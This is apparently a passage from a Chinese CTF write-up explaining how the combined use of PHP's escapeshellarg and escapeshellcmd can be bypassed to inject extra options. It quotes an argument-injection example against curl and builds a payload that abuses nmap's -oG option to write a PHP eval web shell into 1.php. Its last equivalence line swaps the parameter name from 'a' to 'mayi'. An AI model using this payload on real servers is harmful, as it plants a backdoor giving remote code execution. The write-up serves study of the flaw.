 但是在escapeshellarg()函数处理后，就会被当做一个参数来执行命令了。

具体可查看该篇文章（很多利用方式也都有记录，这里先不看了）

https://www.anquanke.com/post/id/107336



已知的绕过/利用

从上一章可以看到，使用`escapeshellcmd / escapeshellarg`时不可能执行第二个命令。
但是我们仍然可以将参数传递给第一个命令。
这意味着我们也可以将新选项传递给命令。
利用漏洞的能力取决于目标可执行文件。

贴一个大佬的例子（通俗易懂）

```php
传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。
```

这里自己总结一下

通过在字符串中间加单引号，使得其经过escapeshellarg处理后单引号前有 \ 来转义单引号，同时两边又会有一对单引号进行链接，与此同时，字符串的前后都会加上单引号，而在接下来secapeshellcmd中处理时，会将最前面的单引号与之前本来用于连接的单引号进行配对，对反斜杠进行转义，变成了两个反斜杠，自己传入的单引号与之前构成连接的单引号进行配对，使得成为了一个空格，最后的单引号没有配对，又有反斜杠进行了转义，这样的话最终的命令就变成了`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为\了而不是转义字符，那么之前的 ' 后面的’就不会被转义了，也就是配对成了空白连接符，总的目的就是把单引号放出来构成了空格

回到本题，本题的命令是nmap

![image-20230613094519944](C:\Users\35575\AppData\Roaming\Typora\typora-user-images\image-20230613094519944.png)

nmap中存在-oG参数，可以将代码与命令写入到文件中，比如`nmap <?php phpinfo();?> -oG 1.php`，就是将这个phpinfo();语句写在了1.php里内了。

所以这里可以构造payload

```php
?host=' <?php eval($_POST["a"]);?> -oG 1.php '
```

注意单引号后，单引号前是有空格的

这里再简要分析一下吧，经过arg过滤后变为

```php
?host=''\'' <?php eval($_POST["a"]);?> -oG 1.php\ '\'''
```

经过cmd

```php
?host=''\'' \<\?php eval($_POST["a"]);\?\> -oG 1.php '\\'''
```

等价于

```php
?host=\<\?php eval($_POST["mayi"])\;\?\> -oG 1.php \\
```
